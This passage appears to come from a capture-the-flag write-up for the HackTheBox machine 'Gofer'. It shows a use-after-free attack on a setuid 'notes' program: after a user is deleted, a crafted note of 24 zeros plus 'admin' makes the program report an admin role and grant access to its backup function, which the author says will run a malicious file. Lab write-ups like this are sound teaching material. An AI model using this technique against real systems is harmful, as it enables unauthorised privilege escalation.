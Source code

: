 The notes content can be created easily using python

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ python3 -c "print('0'*24+'admin')"
000000000000000000000000admin
```

Once all the necessary conditions are in place, I can trick the backup function into executing my malicious file.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ /usr/local/bin/notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: randomUser

...snip...
========================================
3) Delete an user
...snip...

Your choice: 3

...snip...
========================================
4) Write a note
...snip...

Your choice: 4

Write your note:
000000000000000000000000admin

...snip...
========================================
2) Show user information
...snip...

Your choice: 2

Username: 000000000000000000000000admin
Role: admin

...snip...
========================================
8) Backup notes
...snip...

Your choice: 8

Access granted!

```